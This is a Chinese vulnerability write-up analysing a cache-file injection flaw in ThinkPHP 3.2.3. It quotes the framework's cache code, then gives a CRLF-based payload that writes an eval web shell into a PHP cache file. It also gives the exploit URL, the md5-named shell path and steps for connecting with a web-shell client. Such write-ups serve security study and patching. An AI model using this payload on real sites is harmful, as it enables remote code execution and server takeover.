


Thinkphp 3.2.3 缓存漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Thinkphp 3.2.3

三、复现过程
------------

### 漏洞分析

-   直接跟进到`/Library/Think/Cache/File.class.php`文件，看到set方法：

```{=html}
<!-- -->
```
-   /**
             * 写入缓存
             * @access public
             * @param string $name 缓存变量名
             * @param mixed $value  存储数据
             * @param int $expire  有效时间 0为永久
             * @return boolean
             */
            public function set($name,$value,$expire=null) {
                N('cache_write',1);
                if(is_null($expire)) {
                    $expire =  $this->options['expire'];
                }
                $filename   =   $this->filename($name);
                $data   =   serialize($value);
                if( C('DATA_CACHE_COMPRESS') && function_exists('gzcompress')) {
                    //数据压缩
                    $data   =   gzcompress($data,3);
                }
                if(C('DATA_CACHE_CHECK')) {//开启数据校验
                    $check  =  md5($data);
                }else {
                    $check  =  '';
                }
                $data    = "<?php\n//".sprintf('%012d',$expire).$check.$data."\n?>";
                //data参数经过序列化，直接被写到文件内。

                $result  =   file_put_contents($filename,$data);
                if($result) {
                    if($this->options['length']>0) {
                        // 记录缓存队列
                        $this->queue($name);
                    }
                    clearstatcache();
                    return true;
                }else {
                    return false;
                }
            }

```{=html}
<!-- -->
```
-   写一个调用缓存函数的的方法，运行一下。看看写进去什么

```{=html}
<!-- -->
```
-   <?php
        namespace Home\Controller;
        use Think\Controller;
        class IndexController extends Controller {

            public function index(){
                $a=I('post.a3');
                S('name',$a);
            }
        }

```{=html}
<!-- -->
```
-   在set方法下断点，访问
    `http://www.0-sec.org/index.php/Home/Index/index.html`
    ，post数据：`a3=aaaa`



可以看到\$data参数经过序列化，直接写入php后缀的文件。F9运行可以看到，在`Application/Runtime/Temp/`文件夹下生成了php文件。


-   写入到文件被行注释了。

-   `$data`参数未过滤`%0d%0a`可以用换行来绕过行注释，尝试post数据：

```{=html}
<!-- -->
```
-   `a3=%0d%0aeval($_POST['cmd']);%0d%0a//`


-   之后用蚁剑连接成功



### 总结

### Thinkphp3.2.3

1.  漏洞文件位置(一般审计得出)

-   `http://www.0-sec.org/index.php/Home/Index/get?id=%0d%0aeval($_POST['cmd']);%0d%0a//`

2.  缓存文件为缓存名的md5值，这里采用md5（name）=b068931cc450442b63f5b3d276ea4297

-   `http://www.0-sec.org/Application/Runtime/Temp/b068931cc450442b63f5b3d276ea4297.php`

3.  之后蚁剑连接。

参考链接
--------

> [https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/](https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10缓存漏洞/)
